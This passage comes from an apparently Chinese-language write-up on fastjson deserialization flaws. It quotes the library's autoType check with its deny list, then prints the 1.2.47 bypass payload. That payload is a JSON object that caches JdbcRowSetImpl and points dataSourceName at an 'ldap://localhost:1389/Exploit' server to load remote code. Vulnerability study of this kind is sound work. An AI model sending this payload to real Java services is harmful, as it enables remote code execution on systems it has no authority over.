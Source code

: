 ```java
if (typeName == null) {
        return null;
    }

    final String className = typeName.replace('$', '.');

    if (autoTypeSupport) {
        for (int i = 0; i < denyList.length; ++i) {
            String deny = denyList[i];
            if (className.startsWith(deny)) {
                throw new JSONException("autoType is not support. " + typeName);
            }
        }
    }

    Class<?> clazz = TypeUtils.getClassFromMapping(typeName);
    if (clazz == null) {
        clazz = derializers.findClass(typeName);
    }

    if (clazz != null) {
        return clazz;
    }

    for (int i = 0; i < acceptList.length; ++i) {
        String accept = acceptList[i];
        if (className.startsWith(accept)) {
            return TypeUtils.loadClass(typeName, defaultClassLoader);
        }
    }

    if (autoTypeSupport) {
        clazz = TypeUtils.loadClass(typeName, defaultClassLoader);
    }
```

首先是加了一个 Feature, 且默认关闭, 也就是说默认不支持 @type 这种反序列类的方法了. 而且就算打开了, 还有了黑名单, 直接 ban 掉了之前的那两个 payload 的类.

## 1.2.47 绕过

在这之间也出现不少绕过, 但是需要手动开始 autoType, 可以看看推荐阅读的 4 号. 而 1.2.47 版本出现的这个绕过就比较牛逼, 不开始 autoType 这个 feature 也能打.

先看 payload 
```json
{
    "a": {
        "@type": "java.lang.Class", 
        "val": "com.sun.rowset.JdbcRowSetImpl"
    }, 
    "b": {
        "@type": "com.sun.rowset.JdbcRowSetImpl", 
        "dataSourceName": "ldap://localhost:1389/Exploit", 
        "autoCommit": true
    }
}
```
